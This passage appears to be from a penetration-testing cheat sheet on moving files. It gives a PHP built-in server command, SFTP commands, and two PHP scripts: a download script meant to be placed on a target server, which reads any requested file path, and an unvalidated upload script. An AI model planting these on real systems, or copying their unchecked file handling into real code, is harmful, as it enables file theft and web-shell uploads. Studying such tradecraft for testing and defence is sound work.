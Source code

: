 #### PHP Web Server

```bash
# Start PHP web server
php -S 0.0.0.0:8000
```

#### PHP File Upload/Download Scripts

```php
<?php
// File download script - place on target server
if(isset($_GET['file'])) {
  $file = $_GET['file'];
  if(file_exists($file)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($file).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
  }
}
?>

<?php
// File upload script - place on receiving server
if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "./$name");
    echo "File uploaded successfully";
}
?>
```

### SFTP Transfers

```bash
# Connect to SFTP server
sftp user@10.10.10.10

# SFTP commands
sftp> get /remote/file /local/path
sftp> put /local/file /remote/path
sftp> ls
sftp> cd /directory
sftp> mkdir /new/directory
sftp> bye
```
